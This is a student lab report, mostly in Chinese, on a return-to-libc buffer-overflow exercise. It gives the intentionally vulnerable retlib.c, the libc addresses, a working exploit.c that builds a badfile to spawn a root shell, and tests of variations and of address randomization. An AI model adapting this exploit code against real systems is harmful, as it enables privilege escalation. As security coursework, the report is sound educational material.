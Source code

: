 # CS315 Lab12

Name: 王奕童

SID: 11910104

## 2 Lab Tasks

### 2.3 Task 1: Finding out the addresses of libc functions

![image](https://user-images.githubusercontent.com/64548919/208232261-f2e03085-48d1-49ab-81a4-35e649dd1253.png)

`system()`: 0xb7e42da0

`exit()`: 0xb7e369d0

### 2.4 Task 2: Putting the shell string in the memory

修改后的代码：

```C
/* retlib.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bof(FILE *badfile)
{
	char buffer[12];
/* The following statement has a buffer overflow problem */
	fread(buffer, sizeof(char), 40, badfile);
	return 1;
}
int main(int argc, char **argv)
{
	char* shell = getenv("MYSHELL");
	if(shell != NULL){
		printf("shell address is 0x%08x\n",(unsigned int) shell);
	}
	FILE *badfile;
	badfile = fopen("badfile", "r");
	bof(badfile);
	printf("Returned Properly\n");
	fclose(badfile);
	return 1;
}
```

注意操作前要添加MYSHELL的系统环境变量！

![image](https://user-images.githubusercontent.com/64548919/208232640-4338be3e-68c8-472b-83a5-bd0972527a24.png)

可以得到shell的地址是0xbffffe1c。

### 2.5 Task 3: Exploiting the Buffer-Overflow Vulnerability

带上-g参数重新编译retlib.c：


```shell
gcc -fno-stack-protector -z nonexecstack -g -o retlib retlib.c
```

![image](https://user-images.githubusercontent.com/64548919/208232872-e1a1487b-0e5d-47a4-ad14-4a9e275ca9c9.png)

通过课件上的介绍，我计算出：

bof = 20

X = bof + 12 = 32, Y = bof + 4 = 24, Z = bof + 8 = 28

因此代码即为：

```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
	char buf[40];
	FILE *badfile;
	badfile = fopen("./badfile", "w");
	memset(&buf, 0xaa, 40);
	int Y = 24, X = Y + 8, Z = Y + 4;
	printf("Y=%d X=%d Z=%d\n", Y, X, Z);
	/* You need to decide the addresses and
	the values for X, Y, Z. The order of the following
	three statements does not imply the order of X, Y, Z.
	Actually, we intentionally scrambled the order. */
	*(long *) &buf[X] = 0xbffffe1c; // "/bin/sh" ✰
	*(long *) &buf[Y] = 0xb7e42da0; // system() ✰
	*(long *) &buf[Z] = 0xb7e369d0; // exit() ✰
	fwrite(buf, sizeof(buf), 1, badfile);
	fclose(badfile);
}
```

![image](https://user-images.githubusercontent.com/64548919/208234572-5e7a1c23-f490-45d2-9c20-c19ab3832b2e.png)

从上图可知，我们已经获得了具有root权限的shell。

#### Attack variation 1
取消里面的exit():

```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
	char buf[40];
	FILE *badfile;
	badfile = fopen("./badfile", "w");
	memset(&buf, 0xaa, 40);
	int Y = 24, X = Y + 8, Z = Y + 4;
	printf("Y=%d X=%d Z=%d\n", Y, X, Z);
	/* You need to decide the addresses and
	the values for X, Y, Z. The order of the following
	three statements does not imply the order of X, Y, Z.
	Actually, we intentionally scrambled the order. */
	*(long *) &buf[X] = 0xbffffe1c; // "/bin/sh" ✰
	*(long *) &buf[Y] = 0xb7e42da0; // system() ✰
	//*(long *) &buf[Z] = 0xb7e369d0; // exit() ✰
	fwrite(buf, sizeof(buf), 1, badfile);
	fclose(badfile);
}
```

![image](https://user-images.githubusercontent.com/64548919/208234702-fff2d6a1-2f8f-41e3-8bd6-6e3ca391350c.png)

重复执行上述流程，可以发现仍然能够获得具有root权限的shell。但这里有一点有所不同，输入exit的时候触发了段错误。

#### Attack variation 2

我将`retlib`修改为`retlib_1234`以后再次运行，可以发现攻击失败了，没能获取shell。这里失败的原因在图中可以很清楚地看到，两次shell的地址发生了变化，变化大小刚好与变化的文件名长度相同，因此不能再次触发攻击。

![image](https://user-images.githubusercontent.com/64548919/208234913-ea6a440d-0a54-409c-8845-3ae514ddc1e5.png)

### 2.6 Task 4: Turning on Address Randomization

多次编译执行，可以发现打开地址随机化后攻击失败了。这个原因解释为地址会有随机的变动，这样`exploit.c`写入的地址就没有实际意义了。

![image](https://user-images.githubusercontent.com/64548919/208235147-5c8ee8dd-1fae-443c-b9d9-2eabf34d3146.png)

这里触发了段错误的原因是system()和exit()的地址做了变动。

In the exploit.c program used in constructing badfile, we need to provide three addresses and the values for X, Y, and Z. Which of these six values will be incorrect if the address randomization is turned on. Please provide evidences in your report.

这六个值中，X，Y，Z是正确的，其对应的地址是错误的。原因是X,Y,Z仅仅是内存布局上的偏移量，不会随着地址随机化的变化而变化。

![image](https://user-images.githubusercontent.com/64548919/208236732-d45ded9a-1d49-42dc-ba88-e96abfddcbee.png)

## Observation

1. 这次实验的实验结果是依赖于机器的。我和我的Term project队友张睿豪，谢岳臻进行了交流，我和他们的memory address都有所不同。
2. Task3的时候必须带上-g参数进行编译，不然gdb的调试结果会不正确。

## Reference

参考资料：
[1] 【信息安全-科软课程】Lab6 Return-to-libc Attack https://blog.csdn.net/weixin_41950078/article/details/116377385
[2] RETURN TO LIBC ATTACK https://www.freesion.com/article/6824702941/
[3] Return to Libc Attack https://blog.csdn.net/sinat_38816924/article/details/106222286